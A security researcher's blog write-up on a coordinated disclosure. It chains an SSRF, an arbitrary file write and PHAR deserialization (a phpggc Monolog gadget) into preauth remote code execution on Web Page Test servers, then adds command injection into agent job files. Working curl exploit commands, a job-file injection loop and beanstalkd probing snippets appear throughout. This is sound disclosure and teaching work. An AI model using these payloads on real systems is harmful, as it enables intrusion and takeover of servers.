


As I joined ManoMano early in April 2022 (and due to the coordinated vulnerability disclosure timeline), I'm pleased to welcome you to my first ManoMano related article!

A mirror of this article is also (*will soon be*) available on ManoMano's Tech Blog on Medium!

- https://medium.com/manomano-tech

This talk was also given (english) on a @defconParis meetup in Paris the 19th of September 2022,




---


# 0. Context for this research

You read it, I'm now part of the ManoMano Security-Team! It's composed by:

- A dope manager: was deep in tech and moved slowly to more management, but he definitely knows his stuff
- A GRC dude: was a dev back from php-3, and is now cool mountain guy
- A Dev-Sec-Cloud-Ops-SecAgain-Spanish awesome man: efficient, and damn fun
- Ethical Hacker 1: deep focus on frontend & Social-Engineering
- Ethical Hacker 2: me, deep focus on backends exploitation & Teaching

And of course we also rely on security-friendly people that push good code habits, sometimes kill bugs by their own, and help their colleagues grow in a safe neighborhood. It's both a pleasure and a need to have that "long range help", otherwise it would be impossible for us to cover the whole attack surface created daily by almost 500 techs / 1000 employees in total (at the time of writing). Even with automation, it's still hard to automate everything for every topic.

The approach chosen by the team before I joined for ManoMano's security consists in almost pure offensive work.\
This is really pleasant for us that like breaking things, and it definitely helped convince me to join them!

I used the word `almost` because of course, as a company making an intensive use of DevOps practices, we have tons of automated process, observability, monitoring, alerting, etc, etc. But with this monitoring and some hardening done, we really focus on breaking as many bits of prod (okok, integration or pre-production) as possible. That way, everything a hacker could try to target should have already been catched and mitigated!

Do we catch everything? Of course not. No one. Ever. Does.\
But we do try to cover as much as possible with `automated fuzzing`, `third parties audits`, `manual code reviews`, and `pushing security concerns early in every project`. 

When I joined, I've been given some time to just wander around, get used to this new ecosystem, and find out what people were working on, which technologies were being used, and how the whole infrastructure (Regular IT in offices, int/stg/prod environments, third part) had been defined.\
To do so, I spend time on the documentation, and went later on for a more tech-savvy approach!

First, setup a few tools to inspect the network around me.\
Then, setup many more tools to enumerate our internal and external networks both by ip ranges and by domain names we own. This doesn't cover every attack vector a company could be attacked by, but it definitely gives good insights about the company's current security state.

As I wanted to hit hard & early in my new job (read "nail my trial period"), I went first for low-hanging fruits. That's what a hacker would do anyway, use the path of least resistance. **So I picked a php target that seemed flaky!**


So here begins our journey! Be me, Friday morning, messing around with an open-source project for end-to-end testing: `Web Page Test`

Web Page Test is a software that will query and render any website with a headless browser in order to audit its performance, usability, loading time, etc.

Back then, our tech ecosystem was relying on this, but we, at the Security Team explained why this software seemed way too prone to security issues, and why we wanted it gone:

- Lack of updates (code & containers)
- Intensive use of smelly PHP code
- Outdated components (n-day browser exploits, old php libs containing gadgets, etc)
- We've already had [SSRF issues with this product](https://medium.com/manomano-tech/the-tale-of-a-click-leading-to-rce-8f68fe93545d)

One week later, Web Page Test was gone because another preauth SSRF was found in under 15minutes.

But as the engineering crew trusted us on this move that required time, thinking, and work, we really wanted them to know that they trusted us for good reasons. So during my next R&D week (1 out of 4, so yup, this was my free time), I spent a few more days to turn this SSRF into a preauth RCE, including ways to exploit both WPT master and workers.


# 1. Our Local Test Setup

As always, if we want to find bugs, we need to increase our chances by gaining more knowledge on our target!

- Where's the code?
- How does it work?
- What's the setup process?
- Any default credentials or secrets?
- What are the key components and interactions?

All these questions can be answered by spending some time on their documentation, or in their github's repo, or even in dockerhub to only have a generic overview with the main docker images and the way to use them.

- https://hub.docker.com/r/webpagetest/server/ (Err404: removed before the article has been published...)
- https://github.com/WPO-Foundation/webpagetest/tree/master/docker/local
- https://github.com/ropupu/webpagetest-docker-compose


So we'll use ropupu's `docker-compose` (link above). It's a lite wrapper on top of the official WPT images. They also take care of some configuration files for us, so it's a convenient time gain.

It hasn't been updated for 4 years, but as it relies on the official docker images built by WPT, and adds configuration on top of it, I'm still assuming this is the "latest official version" Web Page Test offers.

The source code changed a bit since then, but I'm quite confident that at the time of writing this article, this is still exploitable, but you know what? I tried building the main image from the source... And it fails on step 4 out of 27, and I definitely don't want to spent time troubleshooting a docker image that is `supposed to just work`, as `they were made to provide portability and reproducibility`... :(


## docker-compose.yml

```bash
version: '3'
services:
  server:
    build: ./docker/server
    container_name: 'web page test_server'
    ports:
      - 4000:80
    volumes:
      - /tmp:/tmp:rw # This is for debug only :)
  agent:
    build: ./docker/agent
    container_name: 'web page test_agent'
    ports:
      - 4001:80
    environment:
      - SERVER_URL=http://server/work/
      - LOCATION=Test
```

## Master's Dockerfile

```
FROM web page test/server
ADD locations.ini /var/www/html/settings/
RUN apt update && apt install -y netcat vim socat
```

## locations.ini

```ini
[locations]
1=Test_loc
[Test_loc]
1=Test
label=Test Location
group=Desktop
[Test]
browser=Chrome,Firefox
label="Test Location"
connectivity=LAN
```

## Worker's Dockerfile

```
FROM web page test/agent
ADD script.sh /
RUN chmod 755 /script.sh
ENTRYPOINT /script.sh
```

## script.sh

```bash
#!/bin/bash
set -e
if [ -z "$SERVER_URL" ]; then
  echo >&2 'SERVER_URL not set'
  exit 1
fi
if [ -z "$LOCATION" ]; then
  echo >&2 'LOCATION not set'
  exit 1
fi
EXTRA_ARGS=""
if [ -n "$NAME" ]; then
  EXTRA_ARGS="$EXTRA_ARGS --name $NAME"
fi
python /wptagent/wptagent.py --server $SERVER_URL --location $LOCATION $EXTRA_ARGS --xvfb --dockerized -vvvvv --shaper none
```

So as you can see, this is a dead-simple default setup, relying on the official docker images as base images.


# 2. Light my SSRF, Ignite my interest!

Here's the first SSRF we found in under 15 minutes with some crawling & fuzzing.

```bash
curl -sSkig "http://127.0.0.1:4000/jpeginfo/jpeginfo.php?url=http://172.18.0.1/ssrf"
```


This SSRF is limited to the `http` scheme which is quite limited for SSRF exploitation.\
But the underlying code contains good surprises for us!

The code specifies `curl_setopt($curl, CURLOPT_FOLLOWLOCATION, true);`\

[github.com/WPO-Foundation/webpagetest/www/jpeginfo/jpeginfo.php#L236](https://github.com/WPO-Foundation/webpagetest/blob/45b2f926b4017da2dff44b32f6d24f8765590904/www/jpeginfo/jpeginfo.php#L236)

This implies that it is possible for the evil server (here 172.18.0.1, my docker bridge) to respond with the http header `Location: gopher://172.18.0.1/`. Once the  redirection has been followed, we can then use a second protocol (gopher) to send arbitrary bytes to any host & port!

This won't be used for our final exploit, but it was still considered for numerous hours as a good initial-bug. It still can be used in some cases for non-default configurations.

It was also really tempting to redirect this SSRF to the `phar` protocol, but curl seems to prevent this, so I moved on.

> At this point, Web Page Test has been removed from our infrastructure. My R&D week starts, I lose 2 days on this first SSRF. Every exploit path I had in mind was blocked at some point, for various reasons (hardening, good code pattern, non-default config, php quirks)... As time was flying by, I decided to find another entrypoint.

After some code reading & many greps (ever heard about https://semgrep.dev/ ?), I ended up triggering the following file write which seemed way more promising!

```bash
curl -sSkig 'http://127.0.0.1:4000/runtest.php' -d 'rkey=pouetpouet' -d "ini=pouet"
# Writes pouetpouet to /var/www/html/results/pouetpouet./testinfo.ini
```


The code that is responsible for this can be found here:\
[github.com/WPO-Foundation/webpagetest/www/runtest.php#L3306](https://github.com/WPO-Foundation/webpagetest/blob/45b2f926b4017da2dff44b32f6d24f8765590904/www/runtest.php#L3306)


What this piece of code tells us, is that if we can reach it, it'll happily write our arbitrary bytes contained in `ini` to a known path partially controlled with `rkey`. This might be improved further on with a path traversal or another bug, but we don't even need this to get RCE! ^.^

That being said, we still have no control of the file extension to be used as the filename gets hardcoded to `testinfo.ini`.


# 3. A light from APHAR?

Ok, so we can write arbitrary content to the disk, to a known location. Usually, this would mean "write a webshell" or "write a .htaccess" or anything useful somewhere.

The issue we have with this payload is that we have no control over its filename.\
But *maybe*, with the *right sinks*, if we have the *right gadgets* and *autoload* in place, we *might* get somewhere with an unserialization attack with php's `phar://` scheme.

So... Remember the piece of code responsible for the file write? It happens that after the file has been written, the function `SaveTestInfo` is called.



Function that will knit us a path from string concatenation. String that is prefixed with `$rkey` that is already under our control. So, a string with controlled prefix, sinking in a filesystem-related function... PHAR WE GO!


Side note, did you notice the small trick used at line 3085? It's actually a quite clever trick! By prefixing every path with `./`, they made it really hard to find a sink that would allow me to use an arbitrary scheme instead of a regular path!

Sadly, they forgot (at least) one sink that let the exploitation go further. It would be nice to have a way to enforce such behavior on all filesystem related functions, or to only allow schemes by whitelisting... :)

Ever heard of [Snuffleupagus](https://github.com/jvoisin/snuffleupagus)? If not, this should definitely be your next reading! Well.. After this one of course. :]

Nice hunt so far. Let's rest for a while. With gadget hunting!


I'm not gonna lie, I misread the sources the first time, and thought that `html/lib/aws_v3/aws-autoloader.php` was used. So I wasted tons of time trying to create a brand new gadget out of dust, but it is in fact `html/lib/aws/aws-autoloader.php` that was being used, and what does it contain? Monolog! Which is already subject to a few gadgets that can lead to remote code execution! <3


# 4. Chaining Bugs To The Moon

Wait, don't we already have everything we need?

- A `file write`: with `controlled content`
- A `phar` sink: `is_dir`
- A working gadget: `Monolog/RCE2`
- Autoload: enabled before `is_dir` is called

So what are we missing?

As always, when the way seems clear, we're still a few bugs away from our shell!

The issue we'll face now is the fact that php will only allow opening `phar` archives when their name `looks like™` a real one. I `did not read the sources` so don't quote me on this one, but by trial and error, we can deduce a few things.

It seems that as long as your phar doesn't look like `foo.bar` it won't get unserialized. The path MUST NOT end by a dot, and MUST contain at least one dot.

- OK | `is_dir("phar:///tmp/testinfo.foo");`
- OK | `is_dir("phar:///tmp/testinfo.phar");`
- OK | `is_dir("phar:///tmp/testinfo.pharrrrr");`
- OK | `is_dir("phar:///tmp/testinfo.foo.bar");`
- KO | `is_dir("phar:///tmp/testinfo."); `
- KO | `is_dir("phar:///tmp/testinfo.foo.bar.");`
- KO | `is_dir("phar:///tmp/testinfo");`

But do you remember how our file-write was being processed?

The parameter `rkey=pouetpouet` was creating our phar file in `/var/www/html/results/pouetpouet./testinfo.ini`. So this can be unserialized, right?

Sadly, no. When we trigger the unserialize a second time, a final dot is appended to our path, meaning that php will try to open `/var/www/html/results/pouetpouet./testinfo.ini.` which will be blocked. So, how do we bypass this?

Like for jar, zip, ear, and other compressed file formats, phar IS a zip, which means that with the right parser and syntax, you can ask php to inspect its content! It looks weird as the separator here is a slash, which definitely leads to thinking this is a regular path, but it's not!

I'll give both our phar path, and a regular jar one to make the distinction.

- ` jar:///foo.jar!bar`   // file or dir "bar" within the jar/zip file "foo.jar"
- `phar:///foo.ini/bar`   // file or dir "bar" within the phar/zip file "foo.ini" which is a PHAR


So by appending a final slash to our payload, php will try to open `/var/www/html/results/pouetpouet./testinfo.ini/.`, which will open the archive `testinfo.ini` to try to inspect its sub-item `.` from the archive. The sub-item doesn't even need to exist as php needs to inspect the phar archive first to find out! :D


# 5. Full exploit for MASTER!

```bash
# Generate the right gadget
/opt/phpggc/phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini

# Dirty url-encoding of all bytes to prevent issues
URLENC_PAYLOAD=$(cat /tmp/testinfo.ini | xxd -p | tr -d "\n" | sed "s#..#%&#g")

# Write $URLENC_PAYLOAD in /var/www/html/results/gadget./testinfo.ini
curl -sSkig 'http://127.0.0.1:4000/runtest.php' -d 'rkey=gadget' -d "ini=$URLENC_PAYLOAD" -o -

# Trigger is_dir(phar:///var/www/html/results/gadget./testinfo.ini/foo)
curl -sSkig 'http://127.0.0.1:4000/runtest.php' -d 'rkey=phar:///var/www/html/results/gadget./testinfo.ini/foo' -o -
```

If you're a regular reader of ThinkLoveShare (thank you!), this might ring a bell.. Remember `Case 74` from [1001 Ways to PWN Prod](https://thinkloveshare.com/hacking/1001_ways_to_pwn_prod/)?



Yup. It's this one.


# 6. Then, how do we exploit the runners?

The master will write the scan/jobs details in a json file `work/jobs/<wk_name>/XXXX.YYYY.url`, and while it's doing this, the agents will continually poll for new jobs. The agents will start (for the requested scans) a chrome headless browser with every argument given in the json blob.

By now, I assume the trust boundary used by CatchPoint here was something like follows:

> "Let's try to prevent anyone from entering, but if they get there, OH BOY!"

What I mean by this, is that the arguments are taken from the json blob and used on the other side, without any sanitization, AND within a subshell execution, so by slightly modifying the json blob, we can push our minimal command injection to the agent, and get away with our newly acquired shell! 


# 7. Full exploit for RUNNERS!

First, we'll use our reverse shell to have a nice while loop that will inject our malicious command when a new job file is created:

```bash
# Jobs look like "work/jobs/Test/220719000003.220719_6G_1.url"
cd work/jobs/Test
while true; do
  file=$(grep -lrF -- --user-data-dir)
  sed -i 's#--user-data-dir#;touch /tmp/rce-agent;#g' "$file"
done
```

And then, we start a new scan on *any* website. The loop will use sed to modify the file in place.


After a few seconds, the agent invokes chromium, our injected command gets executed.

This was pure greed as the master was already under our control, but you know, that good feeling of completion... :)


# 8. Exploitation for Beanstalkd users

Another way to use Web-Page-Test is to use Beanstalkd as a queue engine instead of relying on the filesystem. This seems much cleaner even though it does require extra configuration. I initially thought that the default configuration was using Beanstalkd. Nope.

We had an SSRF, which was allowing us (post-redirection) to use the gopher scheme so we could send arbitrary bytes on the loopback to any port. The Beanstalkd service was listening over a tcp socket. All this together meant that we could talk directly to the Beanstalkd interface, and try to read or inject new jobs! Sounds promising & exotic, right?

There are a few other preauth file writes present on the app, among those, one allows us to write arbitrary controlled content fetched by an SSRF to the filesystem, and the path is a SHA of its content split every four char. So it's a file write, to a predictable location.

From this, we can then inject a new job with our SSRF to force the worker to use this file, and that way use the same command injection to compromise the workers.

As `beanstalkd` wasn't part of the default configuration, I did not create a script to automate this process, but this is doable. I also did not take the time to investigate the feasibility of exploiting the master from the worker. I already had my RCE, the rest is just bonus! (Or fun side-project ideas for readers? :o )

```bash
curl -Skig "http://127.0.0.1/jpeginfo/jpeginfo.php?url=http://thinkloveshare.com/payload"
# Payload with it's SHA as filepath
# /var/www/html/results/jpeginfo/448c/6c9e/3e15/bfcf/db81/a1d6/92e8/8a71/5d4c/5e66
```

The code responsible of this behavior results in `www/jpeginfo/jpeginfo.php`:

```php
$url = trim($_REQUEST['url']);
echo "<!DOCTYPE html>\n<html>\n<head>\n</head>\n<body>\n";
echo "JPEG Analysis for " . htmlspecialchars($url) . "<br><br>";
$id = sha1($url);
$path = GetPath($id);
if (!is_file($path)) {
    GetUrl($url, $path); // Will write fetched url with: $imageFile = fopen($path, 'w');
}
if (is_file($path)) {
    AnalyzeFile($path);
}
echo "</body>\n</html>";
```

Command snippets used to discover the way beanstalkd works:

```bash
echo -e "put 1 0 1 5\r\npouet\r\n" | nc 127.0.0.1 11300
# INSERTED 2
echo -e "use default\r\npeek-ready\r\n" | nc 127.0.0.1 11300
# USING default
# FOUND 1 5
# pouet
```

Example of job creation & selection stolen with socat as a tcp-proxy:

```
> 2022/05/23 08:03:15.529020  length=44 from=0 to=43                                           
use wpt.5c70467199fca6c9a4aefcf242763b0e.0\r   
< 2022/05/23 08:03:15.529136  length=46 from=0 to=45
USING wpt.5c70467199fca6c9a4aefcf242763b0e.0\r
> 2022/05/23 08:03:15.529429  length=48 from=44 to=91
put 1024 0 60 28\r                             
220523000007.220523_MB_3.url\r
< 2022/05/23 08:03:15.529516  length=12 from=46 to=57
INSERTED 1\r                                   
> 2022/05/23 08:03:15.534663  length=44 from=0 to=43
use wpt.5c70467199fca6c9a4aefcf242763b0e.0\r
< 2022/05/23 08:03:15.534801  length=46 from=0 to=45
USING wpt.5c70467199fca6c9a4aefcf242763b0e.0\r
> 2022/05/23 08:03:15.534937  length=48 from=44 to=91
put 1024 0 60 28\r                             
220523000008.220523_MB_3.url\r
< 2022/05/23 08:03:15.535045  length=12 from=46 to=57
INSERTED 2\r                                   
> 2022/05/23 08:03:15.535650  length=44 from=0 to=43
use wpt.5c70467199fca6c9a4aefcf242763b0e.0\r
< 2022/05/23 08:03:15.535785  length=46 from=0 to=45
USING wpt.5c70467199fca6c9a4aefcf242763b0e.0\r
> 2022/05/23 08:03:15.535901  length=48 from=44 to=91
put 1024 0 60 28\r                             
220523000009.220523_MB_3.url\r
< 2022/05/23 08:03:15.536007  length=12 from=46 to=57
INSERTED 3\r                                   
> 2022/05/23 08:03:15.553019  length=7 from=0 to=6
stats\r                                        
< 2022/05/23 08:03:15.553198  length=905 from=0 to=904
OK 895\r                                       
---                                            
current-jobs-urgent: 0                         
current-jobs-ready: 3                          
current-jobs-reserved: 0
current-jobs-delayed: 0
current-jobs-buried: 0 
```


# 9. Timeline

- 2022/04/15: First SSRF found
- 2022/05/21: Starting my R&D week!
- 2022/05/25: RCE fully chained \o/
- 2022/05/XX: Triaging, fact-checking myself, sleeping
- 2022/06/15: Initial contact to `security@catchpoint.com`
- 2022/06/1X: Communication isn't going fast, pretty tedious, a few back & forth
- 2022/06/21: I give them every detail, exploit, codepath, video PoC, ...
- 2022/07/01: Asking for an update from Catchpoint
- 2022/07/17: Starting writing the article's draft
- 2022/07/19: Draft ok, sending to close friends & ManoMano staff for review
- 2022/07/21: Still no update, sending this article to CatchPoint in hope for a reaction
- 2022/07/28: Response ok, mitigation wip: "We would like to reward $300 part of our **Big Bounty** program"
- 2022/08/01: I offer to help with the patch validation & vulnerability recheck
- 2022/09/19: Talk given for @defconParis
- 2022/09/23: Still no answer, article publication... `¯\_(ツ)_/¯`


# 10. LifeStyle & Kudos

Having a good work-life balance is hard. I mean, I don't know for most of the people, but for me, it's really hard.

When your passion becomes your work, it's... Awesome! I won't complain on this one of course, but it still gets much harder to make the distinction between my tools, and the one that I create for a specific company. What I mean by this is that I use MANY tools made late at night on my personal time. I couldn't even do my work properly without using them. And in the meantime, a small fraction of my work-time is also being used to patch, fix, and improve this tooling. Who does it belong to?

Tools are a thing, but what about research projects? Exploits? Or even knowledge???

This is why it's really important to find a good work-life balance. And you know what? It's way simpler when the company you're in helps!

This is also why I'm deeply thankful to ManoMano which allowed me (as a company and as my manager's choice, [@BaskFr](https://twitter.com/BaskFr)) to work part time (75%). This means that I'll work for (with <3) them for three weeks, and use the last one for personal research, helping friends out, and hmm... Sleep? Sleep.

Before I leave you, a few words about `Trust` in our field.

It can be pretty tedious for a Security Team to hunt bugs on our colleagues' work. And sometimes even harder to get them fixed! Because we don't want to be the bad guys, we don't want to be the one that say "Hey, this smells like..", in the end, we all have the same goal. Make the company work smoothly, help each other, have fun, and spread knowledge.

This is why being a reliable source of help and information is (to me, it's subjective of course) a key point for a functional & efficient cooperation.

For this specific issue, the engineering team trusted us and got rid of Web Page Test really efficiently. It was then really important for me to show them that they made the right choice putting their trust in us, so I spent time providing a real fully chained PoC, and I learned cool stuff along!

Have a nice day, keep `having fun`, `breaking computers`, and `helping humans`!\
(Not the other way round plzplzplz)
